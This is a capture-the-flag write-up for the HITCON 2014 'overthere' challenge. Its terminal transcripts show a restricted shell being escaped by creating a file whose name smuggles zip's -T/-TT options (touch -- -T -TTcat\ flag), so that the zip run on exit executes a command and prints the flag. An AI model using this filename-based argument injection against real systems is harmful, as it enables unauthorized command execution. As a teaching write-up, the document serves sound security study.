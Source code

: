 # HITCON CTF 2014: overthere

**Category:** Misc.
**Points:** 179
**Description:**

> ```bash
> nc 210.65.11.5 4994
> ```

## Write-up

```bash
root@kali:~# nc 210.65.11.5 4994

 **      ** ** **********   ******    *******   ****     **   **     **
/**     /**/**/////**///   **////**  **/////** /**/**   /**  //**   **
/**     /**/**    /**     **    //  **     //**/**//**  /**   //** **
/**********/**    /**    /**       /**      /**/** //** /**    //***
/**//////**/**    /**    /**       /**      /**/**  //**/**     **/**
/**     /**/**    /**    //**    **//**     ** /**   //****    ** //**
/**     /**/**    /**     //******  //*******  /**    //***   **   //**
//      // //     //       //////    ///////   //      ///   //     //
                                                            by oldtrick

Welcome to my shell. Just pwn to own.

$
```

Cool, a shell!

```
$ ls -lha
total 120K
drwxrwxrwx    2 2137755712 overthere 4.0K Aug 18 01:01 .
drwx-wx-wx 1270 root       root      108K Aug 18 01:01 ..
-rw-r--r--    1 2137755712 overthere    0 Aug 18 01:01 atdog_said_it's_easy
-rw-r--r--    1 2137755712 overthere   34 Aug 18 01:01 flag

$ help
Command:
	echo, exit, touch, cat, ls
id - return user identity
uname - display information about the system
echo - write arguments to the standard output
touch - change file access and modification times
ls - list directory contents
cat - concatenate and print files
exit - backup your files and exit

$ id
uid=2137755712 gid=1001(overthere)

$ uname
Linux

$ uname -a
Linux ctf 3.13.0-30-generic #54-Ubuntu SMP Mon Jun 9 22:45:01 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

Okay, so a lot of things work. However, there are some problems. For example, you can’t directly `cat` a file:

```bash
$ cat flag
Serious? Are you kidding me?!
$ touch test
$ cat test
Serious? Are you kidding me?!
```

Output redirection doesn’t work the way you’d expect it to:

```bash
$ echo test > test
Invalid character.
```

When we type exit we see the following:

```bash
$ exit

Start zipping file...
  adding: atdog_said_it's_easy (stored 0%)
Done.

Did you forget to catch the flag?

Bye!
```

We can see that at exit the current working directory is passed as arguments to the `zip` command. Using `touch` to create a new file that will be used as commandline arguments to `exit` seems like a viable option. A good thing to do is to leverage the `-T`/`--test` and `-TT` options of the `zip` command which do the following:

```
-T
--test
    Test the integrity of the new zip file. If the check fails, the old zip file is unchanged and (with the -m option) no input files are removed.

-TT cmd
--unzip-command cmd
    Use command cmd instead of 'unzip -tqq' to test an archive when the -T option is used. On Unix, to use a copy of unzip in the current directory instead of the standard system unzip, could use:
    zip archive file1 file2 -T -TT "./unzip -tqq"

    In cmd, {} is replaced by the name of the temporary archive, otherwise the name of the archive is appended to the end of the command. The return code is checked for success (0 on Unix).
```

With this we see that we can force the zip archive to be tested and even provide the command to test with. The hard part about this attack is that we need to be able to create a file with the filname of commandline arguments which would normally be processed by `touch` and cause an error as they are not legitimate arguments to the `touch` command. We can remedy this by using the `--` argument which reads in our filename from STDIN instead of literally from the commandline.

Leveraging this information we come up with the following command which allows us to bypass the restriction of running cat directly as well as all other restrictions.

```bash
touch -- -T -TTcat\ flag
```

We run that command and then run `exit` and get the following

```bash
root@kali:~# nc 210.65.11.5 4994

 **      ** ** **********   ******    *******   ****     **   **     **
/**     /**/**/////**///   **////**  **/////** /**/**   /**  //**   **
/**     /**/**    /**     **    //  **     //**/**//**  /**   //** **
/**********/**    /**    /**       /**      /**/** //** /**    //***
/**//////**/**    /**    /**       /**      /**/**  //**/**     **/**
/**     /**/**    /**    //**    **//**     ** /**   //****    ** //**
/**     /**/**    /**     //******  //*******  /**    //***   **   //**
//      // //     //       //////    ///////   //      ///   //     //
                                                            by oldtrick

Welcome to my shell. Just pwn to own.
$ touch -- -T -TTcat\ flag
$ exit

Start zipping file...
  adding: atdog_said_it's_easy (stored 0%)
HITCON{0ld_7rick5_alw4y5_workS!!}
PK
ocEatdog_said_it's_easyUT	���S���Sux
                                          �Z��PK
ocE��atdog_said_it's_easyUT���Sux
                                 �Z��PKZNtest of takeaway.zip OK
Done.

Did you forget to catch the flag?

Bye!
```

The flag is `HITCON{0ld_7rick5_alw4y5_workS!!}`.

## Other write-ups and resources

* <http://givemesecurity.info/2014/08/18/overthere-writeup-hitcon-2014/>
* [Unix Wildcards Gone Wild](http://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt)
